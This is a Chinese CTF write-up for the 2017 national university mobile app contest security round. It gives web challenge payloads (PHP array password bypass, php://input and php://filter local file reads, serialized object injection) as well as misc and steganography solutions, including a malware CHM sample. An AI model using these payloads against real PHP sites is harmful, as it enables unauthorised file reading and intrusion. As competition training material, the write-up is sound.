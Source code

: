 ```yaml
---
title: 2017-miac2-writeup
comments: true
date: 2017-10-31 15:16:41
tags:
	- writeup
categories:
	- 信息安全
	- writeup
keywords: 
	- writeup
---
```

2017全国高校移动互联网应用开发创新大赛-安全赛-第二场-部分writeup。

大部分题目都是满基础的，我等渣渣也做的蛮舒服的。据说决赛会有80支队伍。
第一次看这么多人的决赛，期待决赛场上有意思的事情发生。


<!-- more -->
## WEB
### web1-签到题（40pt）
审查元素，发现有maxlenth属性，修改其值，然后post一个长数据，即可得到flag。


### web2-简单的题（80pt）
审查元素，发现有网页源代码。 
然后直接将password以数组形式post过去。
> postdata:`username=admin&password[]=admin`

### web3-web100-2（100pt）
?hint即可读到源码。
然后设置Cookie为serialize($KEY)
```
<?php
$KEY='BDCTF:www.bluedon.com'; 
echo serialize($KEY)
```
flag:flag{pBXeeZdOkG1QTP1}

### web4-送大礼（100pt）
点击链接，发现一串代码（jsfuck编码），然后console运行。
得到源码：
```
<?php
extract($_GET);  
if(isset($bdctf))  {      
$content=trim(file_get_contents($flag));
if($bdctf==$content){
        echo'bdctf{**********}';
}   
else    
{
        echo'这不是蓝盾的密码啊';    
}
```
payload: 
> getdata: ` ?bdctf=c%3D1&flag=php://input`
> postdata:` c=1`

### web5-蓝盾管理员（100pt）：
2014年的一道原题，利用php特性
payload：
> getdata：`?user=php://input&file=php://filter/convert.base64-encode/resource=flag.php`
> postdata：`the user is bdadmin`

bdctf{Lfi_AnD_More}

### web6-火星撞地球1（200pt）：
admin登录提示密码错误，a登录提示用户不存在。
经过爆破，得到admin的密码为1q2w3e4r
提交flag{1q2w3e4r}成功提交。

### web7-chatbot（200pt）**待补充**
发现接口
http://8eaaa8aed3818244e4f9f31669aac9e8.yogeit.com:8080/admin.php
传入notes后会返回 notes+账号名称+notes。
而且账号名称会变化，你所注册的账号轮播（Cookie的Session没有变），疑似条件竞争。
注册时，密钥加密方式为md5(md5(md5($pass)))
注册时，可以在用户名处进行注入。可判断出后台为django。

### web8-密室杀人案（150pt）

存在David.php
发现：O:4:"Ford":1:{s:6:"Walker";s:8:"flag.php";}
然后将以上数据get形式传给侦探we....即可
payload：
> getdata：`David.php?we...=O:4:"Ford":1:{s:6:"Walker";s:8:"flag.php";`

*备注：忘了侦探叫什么名字了。*

### web9-bluedon用户（200pt）

与5题相似payload，获取到class.php源码
```
<?php
class Read{//f1a9.php
    public $file;
    public function __toString(){
        if(isset($this->file)){
            echo file_get_contents($this->file);    
        }
        return "恭喜get flag";
    }
}
?>
```
类似第5题。只不过后边用了一个unserialize。
上次某某比赛的原题。
最后的payload：
 > getdata:`?user=php://input&file=class.php&pass=O:4:"Read":1:{s:4:"file";s:8:"f1a9.php";}`
 > postdata:`the user is bluedon`

## MISC

### misc1-杂项全家桶（100pt）
拿到bdctf1.png，改后缀zip，解压的music.mp3文件
ihdr文件头。尝试修复png文件。得到二维码，反色后扫描，得到“工井大人夫王”
当铺解密得到 485376
再使用 MP3stego 进行解密，得到 fx4qx0hj_4_cg{Wvf}，再进行栅栏，凯撒转化，得flag
bdctf{4_Sm4rt_b0y}

参考资料：http://blog.csdn.net/etf6996/article/details/70146940

### misc2-抓小鸡（150pt）
下载后，发现是一个chm文档，尝试在主机打开。被win defender拦截。
尝试用好压打开。发现readme.html，打开后立即被拦截，于是拖到虚拟机打开。
题目要求，小鸡的地址即为flag。

![](https://img.5am3.com/5am3/img/20191214145904.png)

所以flag{23.83.243.205}


## stega
### stega1-像素隐藏（70pt）
伪加密压缩包，得到png文件，修改png文件高度即可得flag
Bdctf{u32wg8doib1}




